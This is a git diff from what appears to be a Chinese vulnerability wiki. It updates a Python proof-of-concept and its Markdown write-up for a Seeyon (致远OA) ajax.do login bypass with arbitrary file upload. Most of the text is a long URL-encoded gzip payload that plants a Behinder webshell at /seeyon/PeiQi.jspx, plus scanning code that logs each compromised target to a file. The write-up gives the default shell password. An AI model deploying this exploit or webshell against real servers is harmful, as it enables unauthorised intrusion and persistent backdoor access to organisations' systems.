3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00"
     requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
-    response = requests.post(url=vuln_url_1, headers=headers, data=data, verify=False)
-    webshell_url = target_url + "/seeyon/SeeyonUpdate1.jspx"
+    response = requests.post(url=vuln_url_1, headers=headers, timeout=5, data=data, verify=False)
+    webshell_url = target_url + "/seeyon/PeiQi.jspx"
     try:
         requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
-        response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
+        response = requests.get(url=webshell_url, timeout=5, verify=False, headers=headers)
         if response.status_code == 200:
             with open('webshell.txt', 'a', encoding='utf8') as vu:
-                vu.write("目标 {} 被上传木马: {}/seeyon/SeeyonUpdate1.jspx\n".format(target_url, target_url))
-                print("\033[31m[x] 目标 {} 被上传木马: {}/seeyon/SeeyonUpdate1.jspx \033[0m".format(target_url, target_url))
+                vu.write("目标 {} 被上传木马: {}/seeyon/PeiQi.jspx\n".format(target_url, target_url))
+                print("\033[31m[x] 目标 {} 被上传木马: {}/seeyon/PeiQi.jspx \033[0m".format(target_url, target_url))
     except Exception as e:
         print("\033[31m[x] 请求报错 \033[0m".format(e))
 
@@ -39,20 +39,8 @@ def Scan(file_name):
             if url[:4] != "http":
                 url = "http://" + url
             url = url.strip('\n')
-            webshell_url = url + "/seeyon/SeeyonUpdate1.jspx"
-            headers = {
-                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
-            }
             try:
-                requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
-                response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
-                if response.status_code == 200:
-                    with open('webshell.txt', 'a', encoding='utf8') as vu:
-                        vu.write("目标 {} 被上传木马: {}/seeyon/SeeyonUpdate1.jspx\n".format(url, url))
-                        print("\033[31m[x] 目标 {} 被上传木马: {}/seeyon/SeeyonUpdate1.jspx \033[0m".format(url, url))
-                    continue
-                else:
-                    POC_1(url)
+                POC_1(url)
 
             except Exception as e:
                 print("\033[31m[x] 请求报错 \033[0m".format(e))

diff --git a/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA ajax.do登录绕过 任意文件上传.md b/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA ajax.do登录绕过 任意文件上传.md
@@ -55,21 +55,21 @@ Accept-Language: zh-CN,zh;q=0.9
 loginPageURL=; login_locale=zh_CN;
 Content-Type: application/x-www-form-urlencoded
 
-managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00
+managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00
 ```
 
 ```
 冰蝎3 默认马pass : rebeyond
-webshell地址: http://xxx.xxx.xxx.xxx/seeyon/SeeyouUpdate1.jspx
+webshell地址: http://xxx.xxx.xxx.xxx/seeyon/PeiQi.jspx
 ```
 
 成功会返回
 
 ```json
 {
-  "details":null,
-  "code":"0169692695",
-  "message":null
+    "message":null,
+    "details":null,
+    "code":"0436821967"
 }
 ```
 
@@ -121,23 +121,25 @@ def POC_1(target_url):
         "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
         "Content-Type": "application/x-www-form-urlencoded",
     }
-    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00"
+    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00"
     requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
